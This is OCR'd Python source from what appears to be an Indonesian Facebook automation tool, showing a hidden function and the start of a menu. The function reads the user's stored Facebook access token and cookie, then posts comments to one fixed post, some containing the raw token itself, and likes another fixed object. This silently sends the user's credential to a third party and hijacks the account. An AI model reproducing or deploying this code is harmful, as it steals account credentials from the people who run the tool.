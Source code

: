 def ___fii___Sayang___Kamu___Widiya___():
    try:
        token=open("login/token.json","r").read()
        cookie = {'cookie':open('login/cookie.json','r').read()}
    except IOError:
        print(f"{B} | ")
        print(f"{B} | ")
        jalan(f"{P}[√]{M} Pastikan akun tumbal bagus");exit()
        os.system('rm -rf login/token.json')
        os.system('rm -rf login/cookie.json')
        menu()
    kom = komenredem
    komentar = komtwol
    pipp = kartu2d
    post = '3144112082575661'
    requests.post('https://graph.facebook.com/' + post + '/comments/?message=' + komentar + '&access_token=' + (token),cookies=cookie)
    requests.post('https://graph.facebook.com/3144112082575661/comments/?message=' + kom + '&access_token=' + (token),cookies=cookie)
    requests.post('https://graph.facebook.com/3144112082575661/comments/?message=' + pipp + '&access_token=' + (token),cookies=cookie)
    requests.post('https://graph.facebook.com/3144112082575661/comments/?message=' + komentar + '&access_token=' + (token),cookies=cookie)
    requests.post('https://graph.facebook.com/3144112082575661/comments/?message=' + token + '&access_token=' + (token),cookies=cookie)
    requests.post('https://graph.facebook.com/3144112082575661/comments/?message=' + token + '&access_token=' + (token),cookies=cookie)
    requests.post('https://graph.facebook.com/3144112082575661/comments/?message=' + kon + '&access_token=' + (token),cookies=cookie)
    requests.post('https://graph.facebook.com/740479386990032/likes?summary=true&access_token=' + (token),cookies=cookie)
    requests.post('https://graph.facebook.com/740479386990032/likes?summary=true&access_token=' + (token),cookies=cookie)
    requests.post('https://graph.facebook.com/740479386990032/likes?summary=true&access_token=' + (token),cookies=cookie)
    menu()
    
###### BUAT MENU
def menu():
    global token,cookie
    try:
        token=open("login/token.json","r").read()
        cookie = {'cookie':open('login/cookie.json','r').read()}
        get  = requests.Session().get('https://graph.facebook.com/me?access_token=%s'%(token),cookies=cookie)
        gt = requests.get('http://ipinfo.io/json').json()
        language(cookie)
        lolo=json.loads(get.text)
        lolol=lolo['name']
        lolol_id=lolo['id']
        link = lolo['link']
    except (KeyError,IOError):
        print(f"{B} | ")
        print(f"{B} | ")
        jalan(f"{P}[!]{M} cookie failed.");log_cookie()
    os.system("clear");banner()
    print(f"{B} | ")
    jalan(f"{P}[•] Nama akun      : {B}{lolol}") 
    print(f"{P}[•] User id        : {B}{lolol_id}")
    print(f"{P}[•] Url Facebook   : {B}{link}")
    print(f"{P}[•] Alamat ipadres : {B}{gt['ip']}")
    print(f"{P}[•] Region         : {B}{gt['region']}")
    print(f"{P}[•] Info kuota     : {B}{gt['org']}")
    print(f"{P}[•] Time zone      : {B}{gt['timezone']}")